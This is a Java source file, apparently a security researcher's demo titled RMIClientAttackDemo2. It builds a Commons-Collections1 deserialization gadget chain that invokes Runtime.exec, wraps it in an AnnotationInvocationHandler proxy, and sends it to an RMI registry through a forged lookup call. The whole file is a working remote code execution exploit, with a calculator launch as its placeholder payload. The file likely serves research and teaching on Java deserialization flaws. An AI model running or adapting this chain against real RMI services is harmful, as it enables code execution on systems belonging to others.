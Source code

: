```java
import java.lang.reflect.Field;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 am
 */
public class RMIClientAttackDemo2 {
    public static void main(String[] args) throws Exception {

        // Commons-Collection1 chain
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // Convert proxy object to Remote object
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // Get remote object instance
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);

        // Get ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //Get operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // Forge the lookup code to prevent the transmission of information
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        O
bjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}
```